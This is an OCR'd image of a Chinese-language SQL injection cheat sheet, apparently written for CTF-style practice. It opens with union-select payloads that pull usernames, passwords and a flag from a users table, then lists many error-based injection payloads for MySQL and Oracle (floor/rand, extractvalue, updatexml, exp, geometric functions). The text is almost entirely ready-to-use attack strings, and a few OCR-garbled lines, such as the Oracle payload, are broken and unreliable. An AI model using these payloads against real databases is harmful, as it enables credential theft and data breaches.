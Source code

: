 注意，我们使用'column'替换了'table'，因为我们想要的是一个表的列信息
假设有'username'，'password'，'flag'列，我们可以键入：

```sql
id=-1' union select 1,group_concat(username),3 from users --+
id=-1' union select 1,group_concat(username),group_concat(password) from users --+
id=-1' union select 1,flag,3 from users --+
```

即可按需查询所需要的信息。



#### 报错注入：

```sql
- floor （SELECT user()可修改）

- OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)–+
  
- ExtractValue(有长度限制,最长32位) （select @@version可修改）
  
  and extractvalue(1, concat(0x7e, (select @@version),0x7e))–+

- UpdateXml(有长度限制,最长32位) （SELECT @@version可修改）

  and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)–+

- NAME_CONST(适用于低版本，不太好用)

- and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)–+

- Error based Double Query Injection

- or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1–+

- exp(5.5.5以上) （select user()可修改）

- and (select exp(~(select * from(select user())x)))–+

- floor(Mysql): and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x 
from information_schema.tables group by x)a);

- Extractvalue(Mysql): and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- Updatexml(Mysql): and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- EXP: and exp(~(select * from(select user())a));

- UTL INADDR. get host address(Oracle): and 1=utl inaddrget host address(select bannerO from sys.v_$version where rownum=1))

- multipoint(Mysql)：and multipoint((select * from(select * from(select user())a)b));

- polygon(Mysql)：and polygon((select * from(select * from(select user())a)b));

- multipolygon(Mysql)：and multipolygon((select * from(select * from(select 
user())a)b));

- linestring(Mysql)：and linestring((select * from(select * from(select user())a)b));

- multilinestring(Mysql)：and multilinestring((select * from(select * from(select user())a)b));
```
